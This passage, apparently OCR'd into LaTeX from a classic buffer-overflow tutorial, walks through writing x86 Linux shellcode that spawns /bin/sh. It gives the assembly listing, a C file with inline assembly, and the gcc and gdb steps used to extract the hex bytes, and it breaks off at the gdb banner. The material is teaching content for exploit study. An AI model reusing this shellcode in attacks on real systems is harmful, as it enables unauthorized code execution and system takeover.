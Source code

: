 \documentclass[10pt]{article}
\begin{document}
{Calculating the offsets from jmp to call, from call to popl, from the string address to the array, and from the 
string address to the null long word, we now have: 


\begin{verbatim}
jmp    0x26                     # 2 bytes
popl   %esi                     # 1 byte
movl   %esi,0x8(%esi)           # 3 bytes
movb   $0x0,0x7(%esi)           # 4 bytes
movl   $0x0,0xc(%esi)           # 7 bytes
movl   $0xb,%eax                # 5 bytes
movl   %esi,%ebx                # 2 bytes
leal   0x8(%esi),%ecx           # 3 bytes
leal   0xc(%esi),%edx           # 3 bytes
int    $0x80                    # 2 bytes
movl   $0x1, %eax               # 5 bytes
movl   $0x0, %ebx               # 5 bytes
int    $0x80                    # 2 bytes
call   -0x2b                    # 5 bytes
.string \"/bin/sh\"             # 8 bytes
\end{verbatim}

Looks good. To make sure it works correctly we must compile it and run it. But  there is a problem. Our code 
modifies itself  [where?],  but most operating system mark code pages read only. To get around this restriction 
we must place the code we wish to execute in the stack or data segment, and transfer control to it. To do so we 
will place our code in a global array in the data segment. We need first a hex representation of the binary code. 
Lets compile it first, and then use gdb to obtain it.

\begin{lstlisting}[caption=shellcodeasm.c]
void main() 
{
__asm__
("
jmp    0x2a                     # 3 bytes
popl   %esi                     # 1 byte
movl   %esi,0x8(%esi)           # 3 bytes
movb   $0x0,0x7(%esi)           # 4 bytes        
movl   $0x0,0xc(%esi)           # 7 bytes
movl   $0xb,%eax                # 5 bytes
movl   %esi,%ebx                # 2 bytes
leal   0x8(%esi),%ecx           # 3 bytes
leal   0xc(%esi),%edx           # 3 bytes
int    $0x80                    # 2 bytes
movl   $0x1, %eax               # 5 bytes
movl   $0x0, %ebx               # 5 bytes
int    $0x80                    # 2 bytes
call   -0x2f                    # 5 bytes
.string \"/bin/sh\"             # 8 bytes
");
}
\end{lstlisting}

{\small
\begin{verbatim}
[aleph1]$ gcc -o shellcodeasm -g -ggdb shellcodeasm.c
[aleph1]$ gdb shellcodeasm

GDB is free software and you are welcome to distribute 
copies of it under certain conditions; type 
"show copying" to see the conditions.


\end{verbatim}}}
\end{document}
